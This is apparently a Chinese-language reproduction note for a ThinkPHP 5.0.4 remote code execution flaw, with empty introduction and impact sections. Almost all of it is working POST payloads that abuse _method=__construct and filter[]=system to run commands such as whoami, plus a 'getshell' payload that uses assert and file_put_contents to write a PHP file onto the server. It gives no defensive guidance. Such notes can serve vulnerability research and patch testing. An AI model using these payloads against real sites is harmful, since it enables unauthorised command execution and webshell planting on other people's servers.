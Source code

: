 Thinkphp 5.0.4
==============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

> www.0-sec.org/?s=index/index

    POST

    s=whoami&_method=__construct&method=POST&filter[]=system

    aaaa=whoami&_method=__construct&method=GET&filter[]=system

    _method=__construct&method=GET&filter[]=system&get[]=whoami

> getshell

    POST

    s=file_put_contents('zerosec.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
